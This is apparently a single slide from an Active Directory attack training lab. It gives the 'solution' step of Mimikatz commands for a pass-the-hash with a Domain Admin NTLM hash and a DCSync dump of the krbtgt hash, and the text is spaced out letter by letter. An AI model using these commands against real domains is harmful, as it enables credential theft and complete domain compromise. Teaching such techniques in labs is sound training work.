

# SOLUTION: PTH AND DUMP KRBTGT
Perform Pass the hash with the Domain Admin account:

M i m i k a t z . e x e
s e k u r l s a :: p t h  / u s e r : D A d m i n . u s e r	/ d o m a i n : a l t o . t e l
/ n t l m : a b 1 7 4 5 9 b 2 2 b c 4 4 7 d 8 6 0 c 7 2 4 3 f 6 b 4 0 4 3 6  / r u n : p o w e r s h e l l . e x e

Perform DCSync attack and dump krbtgt hash:

M i m i k a t z . e x e
l s a d u m p :: d c s y n c  / u s e r : k r b t g t
205